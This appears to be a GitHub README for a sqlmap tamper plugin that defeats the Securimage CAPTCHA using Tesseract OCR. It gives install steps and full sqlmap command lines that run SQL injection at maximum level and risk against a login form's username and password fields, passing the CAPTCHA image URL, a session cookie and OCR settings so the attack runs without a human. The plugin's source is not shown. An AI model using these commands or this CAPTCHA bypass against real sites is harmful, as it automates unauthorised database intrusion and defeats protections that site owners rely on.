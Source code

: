 ## Securimage Tamper

SQLMap tamper for breaking securimage captcha!

# Installation

Ubuntu

```
sudo apt-get install tesseract-ocr-eng imagemagick catimg
```

```
pip install pytesseract
```

Put files into `sqlmap/tamper` or any related to sqlmap `tamper` folder

# Usages

Always make `--tamper` have spaces between `--tamper` and `securimage`. Examples: `--tamper securimage url_image params_captcha cookie_session tesseract_psm tesseract_oem tesseract_dpi tesseract_c(optional)`

## securimage tamper have 3 modes

- math

Automatically evaluate math expressions

- character

Manually input character

- easy

Automatically input easy recognize character

### Full Examples

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper secureimagecaptcha http://examples.com/securimage_show.php captcha_code "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXX" "13 1 100 tessedit_char_whitelist=1234567890x-+"
```

### Examples With Another Tamper

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper=varnish,luanginx --tamper secureimagecaptcha http://examples.com/securimage_show.php captcha_code "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXX" "13 1 100 tessedit_char_whitelist=1234567890x-+"
```
